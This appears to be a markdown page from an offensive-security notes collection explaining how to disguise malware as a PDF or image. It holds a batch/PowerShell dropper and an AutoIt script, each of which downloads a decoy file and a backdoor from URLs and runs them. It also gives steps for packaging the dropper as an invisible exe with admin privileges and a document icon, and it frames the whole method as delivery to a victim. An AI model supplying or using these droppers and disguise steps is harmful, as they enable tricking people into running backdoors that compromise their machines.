


# Embedding malicious files in Images or PDF

## Embedding Files using batch (First Method)

```batch
@echo off

set files='pdf/image_url','url_of_our_evil_file/Backdoor_URL'

powershell "(%files%)|foreach{$fileName='%TEMP%'+(Split-Path -Path $_ -Leaf);(new-object System.Net.WebClient).DownloadFile($_,$fileName);Invoke-Item $fileName;}"
```

* Using the following **batch script** following by the **URL's** order and **delivering to the victim** we will see that when the victim opens this file, the **pdf/image** will pop up first and the evil program will be executed after.

## Embedding Files using Autoit (Second Method)

```c
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "image_URL,Backdoor_URL"

Local $urlsArray = StringSplit($urls, ",", 2 )

For $url In $urlsArray
	$sFile = _DownloadFile($url)
	shellExecute($sFile)

Next

Func _DownloadFile($sURL)
    Local $hDownload, $sFile
    $sFile = StringRegExpReplace($sURL, "^.*/", "")
    $sDirectory = @TempDir & $sFile
    $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc   ;==>_GetURLImage
```

* Use this script and add all the malicious links you want.

<figure><figcaption></figcaption></figure>

* Once this its compile, when the victims execute the file, it will execute at the same time all the files.
* This does the same that the first method does but without using batch and uploading straight the icon of the program in the autoit program.&#x20;

## Converting Bat to exe

### Installation

* Use wine to execute the program in Linux, you can use it in windows as well.

```java
sudo apt update
sudo apt upgrade
git clone https://github.com/tokyoneon/B2E
cd B2E
unzip Bat_To_Exe_Converter.zip
wine  Bat_To_Exe_Converter_\(Installer\).exe
```

### Usage

* Always select one of the invisible options (Windows 64 bits invisible).
* You can click on _**Requests Administrator privileges**_ to get access with admin privileges.
* The Icon option lets you set an Icon to your evil file like pdf, word, etc.

<figure><figcaption></figcaption></figure>


